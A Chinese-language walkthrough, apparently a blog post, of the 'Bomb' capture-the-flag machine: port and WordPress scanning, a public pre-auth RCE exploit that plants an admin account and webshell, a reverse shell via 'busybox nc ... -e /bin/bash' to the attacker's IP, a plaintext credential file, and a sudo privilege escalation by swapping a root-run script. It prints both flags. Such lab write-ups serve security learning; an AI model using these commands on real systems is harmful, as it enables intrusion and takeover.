



# Bomb


# Bomb

## 端口扫描

```python
(base) ┌──(root㉿kali)-[/tmp]
└─# rustscan -a 192.168.56.192 --ulimit 5000 -- -sV -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
You miss 100% of the ports you don't scan. - RustScan

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.56.192:22
Open 192.168.56.192:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sV -A" on ip 192.168.56.192
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-20 17:28 CST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.01s elapsed
Initiating ARP Ping Scan at 17:28
Scanning 192.168.56.192 [1 port]
Completed ARP Ping Scan at 17:28, 0.18s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:28
Completed Parallel DNS resolution of 1 host. at 17:29, 13.00s elapsed
DNS resolution of 1 IPs took 13.00s. Mode: Async [#: 2, OK: 0, NX: 0, DR: 1, SF: 0, TR: 4, CN: 0]
Initiating SYN Stealth Scan at 17:29
Scanning 192.168.56.192 [2 ports]
Discovered open port 80/tcp on 192.168.56.192
Discovered open port 22/tcp on 192.168.56.192
Completed SYN Stealth Scan at 17:29, 0.03s elapsed (2 total ports)
Initiating Service scan at 17:29
Scanning 2 services on 192.168.56.192
Completed Service scan at 17:29, 7.20s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 192.168.56.192
Retrying OS detection (try #2) against 192.168.56.192
NSE: Script scanning 192.168.56.192.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:29
Completed NSE at 17:29, 6.98s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:29
Completed NSE at 17:29, 0.72s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
Nmap scan report for 192.168.56.192
Host is up, received arp-response (0.0012s latency).
Scanned at 2026-07-20 17:29:11 CST for 18s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 10.3 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.67 ((Unix) PHP/8.1.34)
|_http-favicon: Unknown favicon MD5: DCAB89B8E04BF53FCD7F6A44A8CB4FAE
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.67 (Unix) PHP/8.1.34
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Bomb WordPress
|_http-generator: WordPress 7.1-beta1
MAC Address: 08:00:27:E8:20:A1 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), Linux 3.2 - 4.9 (94%), Linux 3.16 (94%), Linux 2.6.32 - 3.10 (93%), Linux 4.15 - 5.8 (93%), Linux 5.4 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/20%OT=22%CT=%CU=40008%PV=Y%DS=1%DC=D%G=N%M=080027%TM=6A5DEA79%P=x86_64-pc-linux-gnu)
SEQ(SP=FC%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=21)
OPS(O1=M5B4ST11NW9%O2=M5B4ST11NW9%O3=M5B4NNT11NW9%O4=M5B4ST11NW9%O5=M5B4ST11NW9%O6=M5B4ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW9%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.000 days (since Mon Jul 20 17:29:20 2026)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=252 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   1.20 ms 192.168.56.192

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.90 seconds
           Raw packets sent: 47 (3.672KB) | Rcvd: 31 (2.616KB)

```

## 80/tcp

是一个 WordPress，做个信息收集

```python
(base) ┌──(root㉿kali)-[/tmp]
└─# wpscan --url http://192.168.56.192 --enumerate vp,vt,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
 


[+] URL: http://192.168.56.192/ [192.168.56.192]
[+] Started: Tue Jul 21 17:50:43 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Proxy-Connection: keep-alive
 |  - Server: Apache/2.4.67 (Unix) PHP/8.1.34
 |  - X-Powered-By: PHP/8.1.34
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.168.56.192/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.56.192/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.56.192/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.56.192/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:22 <==========================================================================> (702 / 702) 100.00% Time: 00:00:22[i] The WordPress version could not be detected.

[+] WordPress theme in use: twentytwentyfive
 | Location: http://192.168.56.192/wp-content/themes/twentytwentyfive/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://192.168.56.192/wp-content/themes/twentytwentyfive/readme.txt
 | Style URL: http://192.168.56.192/wp-content/themes/twentytwentyfive/style.css
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.56.192/wp-content/themes/twentytwentyfive/style.css, Match: 'Version: 1.5'

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Jul 21 17:51:18 2026
[+] Requests Done: 1301
[+] Cached Requests: 9
[+] Data Sent: 421.438 KB
[+] Data Received: 40.965 MB
[+] Memory used: 330.887 MB
[+] Elapsed time: 00:00:34

```

发现站点就是 WordPress，版本为 `7.1-beta1`​，查找发现是 CVE-2026-63030 [Crypto-Cat/wp2shell: PoC for CVE-2026-63030 + CVE-2026-60137, AKA WP2Shell](https://github.com/Crypto-Cat/wp2shell)

```python
(base) ┌──(root㉿kali)-[/tmp]
└─# whatweb http://192.168.56.192/ 
http://192.168.56.192/ [200 OK] Apache[2.4.67], Country[RESERVED][ZZ], HTML5, HTTPServer[Unix][Apache/2.4.67 (Unix) PHP/8.1.34], IP[192.168.56.192], MetaGenerator[WordPress 7.1-beta1], PHP[8.1.34], Script[application/json,importmap,module,speculationrules], Title[Bomb WordPress], UncommonHeaders[link], WordPress, X-Powered-By[PHP/8.1.34]
                                 
```

直接使用  poc

```python
(base) PS D:\Users\11714\Desktop> python .\exp.py exploit http://192.168.56.192/ -c 'id;uname -a;pwd;whoami'

                ___        __         ____
 _      ______ |__ \ _____/ /_  ___  / / /
| | /| / / __ \__/ // ___/ __ \/ _ \/ / /
| |/ |/ / /_/ / __/(__  ) / / /  __/ / /
|__/|__/ .___/____/____/_/ /_/\___/_/_/
      /_/
  CVE-2026-63030 + CVE-2026-60137
  WordPress Pre-Auth RCE  [v3.0.0]


  [1/7] Reconnaissance
  [*] Target: http://192.168.56.192
  [*] WordPress 7.1
  [+] UNION extraction available (in-band, 1 request/value)

  [2/7] Enumerating target
  [*] Using admin ID: 1

  [3/7] Locating embed target
  [+] Embed URL: http://192.168.56.192/hello-world/

  [4/7] Seeding oEmbed cache posts
  [+] Seed payload delivered

  [5/7] Extracting cache post IDs
  [+] Cache IDs: [180, 181, 182, 183]

  [6/7] Triggering escalation chain
  [*] Creating admin: wp_service_762c6f
  [+] Administrator created via re-entry chain

  [7/7] Deploying webshell
  [+] Authenticated
  [+] RCE confirmed
      uid: uid=104(apache) gid=106(apache) groups=82(www-data),106(apache),106(apache)

  [+] ========================================================
  [+]   TARGET COMPROMISED
  [+]   Admin:  wp_service_762c6f / tC0qyKLk3PFvGoL5y-Elcp7UgJI
  [+]   Shell:  http://192.168.56.192/wp-content/plugins/cache_64e0422c/cache_64e0422c.php
  [+] ========================================================

uid=104(apache) gid=106(apache) groups=82(www-data),106(apache),106(apache)
Linux Bomb 7.0.4-0-stable #1-Alpine SMP PREEMPT_DYNAMIC 2026-05-07 07:11:57 x86_64 Linux
/opt/wordpress/wp-content/plugins/cache_64e0422c
apache
```

反弹一个 shell

```python
python .\exp.py exploit http://192.168.56.192/ -c 'busybox nc 192.168.56.102 3344 -e /bin/bash'
```

```python
/usr/bin/script -qc /bin/bash /dev/null
按下 ctrl z
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash
```



## **横向到 ll104567**

发现访问` /home/ll104567/ `无权限

```python
Bomb:/tmp$ cd /home/ll104567/
bash: cd: /home/ll104567/: Permission denied
Bomb:/tmp$ 
```

然后枚举一下和目标用户 `ll104567` 明确相关的文件。

```python
Bomb:/tmp$ find / -user ll104567 -o -group ll104567 2>/dev/null
/home/ll104567
/usr/bin/12138.txt
Bomb:/tmp$ 
```

发现有一个 `/usr/bin/12138.txt`

```python
Bomb:/tmp$ cat /usr/bin/12138.txt
Fxa6DZEOnghp20V5aXRPBomb:/tmp$ 
```

拿到凭证：`ll104567:Fxa6DZEOnghp20V5aXRP`，然后直接 ssh 

```python
(base) ┌──(root㉿kali)-[~]
└─# ssh ll104567@192.168.56.192
The authenticity of host '192.168.56.192 (192.168.56.192)' can't be established.
ED25519 key fingerprint is SHA256:xJ90oWmr5sPR2afHz9etzSdtxINmLI+JvbwgV/iCsWY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
    ~/.ssh/known_hosts:29: [hashed name]
    ~/.ssh/known_hosts:31: [hashed name]
    ~/.ssh/known_hosts:36: [hashed name]
    ~/.ssh/known_hosts:44: [hashed name]
    ~/.ssh/known_hosts:45: [hashed name]
    ~/.ssh/known_hosts:57: [hashed name]
    ~/.ssh/known_hosts:62: [hashed name]
    (10 additional names omitted)
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.192' (ED25519) to the list of known hosts.
ll104567@192.168.56.192's password: 
              _                          
__      _____| | ___ ___  _ __ ___   ___ 
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|

ll104567@Bomb:~$ id
uid=1000(ll104567) gid=1000(ll104567) groups=1000(ll104567)
ll104567@Bomb:~$ ls
12138.sh  user.txt
ll104567@Bomb:~$ cat user.txt 
flag{user-bea7e45c177a6909a5a5c6138616b7e3}
```

## 提权

存在 sudo

```python
ll104567@Bomb:~$ sudo -l
Matching Defaults entries for ll104567 on Bomb:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for ll104567:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User ll104567 may run the following commands on Bomb:
    (ALL) NOPASSWD: /home/ll104567/12138.sh
ll104567@Bomb:~$ 
```

读取一下 `12138.sh`

```python
ll104567@Bomb:~$ cat /home/ll104567/12138.sh
#!/bin/bash

# 定义颜色数组（ANSI转义码）
colors=(
    "\033[31m"  # 红色
    "\033[32m"  # 绿色
    "\033[33m"  # 黄色
    "\033[34m"  # 蓝色
    "\033[35m"  # 紫色
    "\033[36m"  # 青色
    "\033[91m"  # 亮红色
    "\033[92m"  # 亮绿色
    "\033[93m"  # 亮黄色
    "\033[94m"  # 亮蓝色
    "\033[95m"  # 亮紫色
    "\033[96m"  # 亮青色
)

# 定义留言板标题（固定不变）
header="💬 留言板\n这里汇聚着 MazeSec 社区成员的寄语与签名"

# 定义社区成员寄语数组
messages=(
    "@Randark\nWhy So Serious"
    "@Sublarge\nYou don't know what you don't know"
    "@DingTom\nwhere is my shell?"
    "@kaada\n没有术力口和邦邦的生活是不可想象的"
    "@BoPo\n手握日月摘星辰，世间无我这般人；吾有一口玄黄气，便可吞天灭地斩乾坤"
    "@suraxddq\nThe further you go, the wider the horizon becomes."
    "@Yliken\n红豆生南国 春来发几枝 愿君多采撷 此物最相思"
    "@yulian\n旗未动 风也未吹 只是人心在动啊"
    "@S@Ku_yA\n无论在哪里,人与人都是彼此相连的"
    "@sML\nA human without a hacker spirit is just an obedient machine."
    "@c1trus\nthe quieter you become, the more you can hear"
    "@12138\n如果你坚定的选择我，那么我的选项里只会有你"
    "@Ahiz\n人人都说要知足 我没有说话 我到底要了什么 又得到了什么"
    "@LingMj\nThe best way to learn is to teach. Keep writing, keep sharing!"
    "@bamuwe\n;whoami"
    "@玫幽倩\n愿我们都能越走越远"
    "@Tuf\n会当凌绝顶"
    "@sunset\nRecords of life and study at sunset."
    "@ll104567\n认识的人越多 我就越喜欢狗."
    "@Aristore\nto explore, to innovate."
    "@TriumphK\n当你的才华不足以满足你的野心时，应该静下心来努力学习。"
    "@HYH\n想念的终究会相遇吧"
    "@Todd\nEvery challenge is a step towards mastery. Keep pushing your limits!"
    "@tonglinggejimo\n知不足而奋进，望远山而力行"
    "@wackymaker\njust keep hack"
    "@ta0\n真正的大师永远都怀一颗学徒的心"
    "@111\n快乐是选择"
    "@lpppp\nSuccess is not accidental, but has always been a habit."
)

# 重置颜色
reset_color="\033[0m"

# 随机选择一个颜色
color_index=$((RANDOM % ${#colors[@]}))
# 随机选择一条留言
msg_index=$((RANDOM % ${#messages[@]}))

# 输出留言板
echo -e "${header}"
echo "----------------------------------------"
echo -e "${colors[$color_index]}${messages[$msg_index]}${reset_color}"
```

分析一下目录权限

```python
ll104567@Bomb:~$ ls -ld /home/ll104567
drwx------    2 ll104567 ll104567      4096 Jul 21 23:30 /home/ll104567
ll104567@Bomb:~$ ls -l /home/ll104567/12138.sh
-rwxr-xr-x    1 root     root          2553 Jul 20 01:50 /home/ll104567/12138.sh
ll104567@Bomb:~$ 
```

-   **​`/home/ll104567`​**​ **这个目录里的目录项由 ll104567 控制**。可以创建新文件，删除，重命名，替换。
- 12138.sh，`rwxr-xr-x`​：root 可读写执行，别人可读可执行；属主属组：`root root`

所以攻击链就是：

1. 原来 `/home/ll104567/12138.sh` 是 root 的脚本
2. 但目录 `/home/ll104567`​ 归 `ll104567`
3. `ll104567` 可以把原文件挪走
4. 再放一个自己写的新脚本，名字仍然叫 `12138.sh`
5. `sudo /home/ll104567/12138.sh` 执行时，跑的就是你新写进去的内容
6. 于是 root 帮你执行命令

payload：

```python
mv /home/ll104567/12138.sh /home/ll104567/12138.sh.bak

cat > /home/ll104567/12138.sh <<'EOF'
#!/bin/bash
id
whoami
cat /root/root.txt
EOF

chmod +x /home/ll104567/12138.sh

sudo /home/ll104567/12138.sh
```



## 非预期

可以使用 `CVE-2026-43284/43500 Dirty Frag ` 进行提权



flag：

> user flag：`flag{user-bea7e45c177a6909a5a5c6138616b7e3}`
>
> root flag：`flag{root-8c7a3f1b9d4e2f6a0c5b8d3e1f7a4c9b}`

‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/bomb/  

